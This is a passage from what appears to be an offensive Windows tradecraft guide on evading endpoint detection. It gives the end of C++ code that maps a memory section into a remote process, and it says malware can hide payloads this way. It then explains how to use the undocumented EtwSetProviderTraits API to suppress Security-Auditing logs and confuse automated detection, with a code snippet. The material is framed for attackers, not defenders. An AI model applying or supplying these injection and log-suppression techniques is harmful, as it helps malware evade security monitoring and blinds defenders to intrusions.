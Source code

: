 ```cpp

    if (status != 0) {
        printf("NtMapViewOfSection (remote) failed with status: 0x%X\n", status);
        CloseHandle(hTargetProcess);
        NtUnmapViewOfSection(GetCurrentProcess(), baseAddress);
        CloseHandle(hSection);
        FreeLibrary(hNtdll);
        return 1;
    }

    printf("Section mapped into target process at address: %p\n", remoteBaseAddress);

    // Cleanup
    NtUnmapViewOfSection(GetCurrentProcess(), baseAddress);
    NtUnmapViewOfSection(hTargetProcess, remoteBaseAddress);
    CloseHandle(hTargetProcess);
    CloseHandle(hSection);
    FreeLibrary(hNtdll);

    return 0;
}
```

By mapping a section this way, malware can hide payloads in system memory regions where most EDRs won’t look, establishing deep persistence.

## 2. Advanced ETW and Telemetry Manipulation: Subverting Internal ETW Stacks with `EtwSetProviderTraits`

Standard ETW evasion involves patching or disabling functions like `EtwEventWrite`, but advanced tactics can target the ETW provider traits, controlling what gets logged at a configuration level without altering ETW functions directly. `EtwSetProviderTraits` is an undocumented API that allows for precise control over what an ETW provider reports.

![image](https://github.com/user-attachments/assets/3e4fbcb0-84e2-4b70-886b-9fa3c8d7724e)


### Using `EtwSetProviderTraits` for Granular Event Control

- **Selective Event Blocking**: By adjusting provider traits, you can configure which events from a provider are recorded and which are ignored. For example, disabling specific traits for Microsoft-Windows-Security-Auditing can prevent certain security logs from being generated.

- **Trait-Based Fuzzing to Avoid Detection**: Changing provider traits at random intervals to inject benign traits temporarily makes event analysis inconsistent, disrupting automated detections.

### Code Example: Subverting Provider Traits for Covert ETW Control

```cpp
// Modify provider traits to minimize logging
GUID providerGuid = ...; // Target provider's GUID, e.g., Security-Auditing
BYTE traits[] = { 0x00 }; // Minimal logging trait configuration

EtwSetProviderTraits(&providerGuid, traits, sizeof(traits));
```
